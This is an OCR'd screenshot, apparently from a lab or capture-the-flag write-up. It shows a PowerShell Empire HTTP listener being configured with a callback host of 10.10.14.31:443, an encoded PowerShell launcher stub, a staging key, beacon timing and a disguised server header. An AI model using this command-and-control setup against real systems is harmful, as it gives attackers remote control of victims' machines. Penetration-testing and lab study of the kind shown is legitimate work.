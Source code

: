 Setting the Host option will configure both the Host option, as well as the Port:

```
Empire: listeners/http) > set Host http://10.10.14.31:443
(Empire: listeners/http) > info    Name: HTTP[S]
Category: client_serverAuthors:
  @harmj0yDescription:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.HTTP[S] Options:  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  Name              True        http                             Name for the listener.
  Host              True        http://10.10.14.31:443           Hostname/IP for staging.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  Port              True        443                              Port for the listener.
  Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
  StagingKey        True        d6ca3fd0c3a3b462ff2b83436dda495e Staging key for initial agent negotiation.
  DefaultDelay      True        5                                Agent delay/reach back interval (in seconds).
  DefaultJitter     True        0.0                              Jitter in agent reachback interval (0.0-1.0).
  DefaultLostLimit  True        60                               Number of missed checkins before exiting
  DefaultProfile    True        /admin/get.php,/news.php,/login/ Default communication profile for the agent.
                                process.php|Mozilla/5.0 (Windows
                                NT 6.1; WOW64; Trident/7.0;
                                rv:11.0) like Gecko
  CertPath          False                                        Certificate path for https listeners.
  KillDate          False                                        Date for the listener to exit (MM/dd/yyyy).
  WorkingHours      False                                        Hours for the agent to operate (09:00-17:00).
  Headers           True        Server:Microsoft-IIS/7.5         Headers for the control server.
  Cookie            False       sTAZwcPKtawpT                    Custom Cookie Name
  StagerURI         False                                        URI for the stager. Must use /download/. Example: /download/stager.php
  UserAgent         False       default                          User-agent string to use for the staging request (default, none, or other).
  Proxy             False       default                          Proxy to use for request (default, none, or other).
  ProxyCreds        False       default                          Proxy credentials ([domain\]username:password) to use for request (default, none, or other).
  SlackToken        False                                        Your SlackBot API token to communicate with your Slack instance.
  SlackChannel      False       #general                         The Slack channel or DM that notifications will be sent to.
```
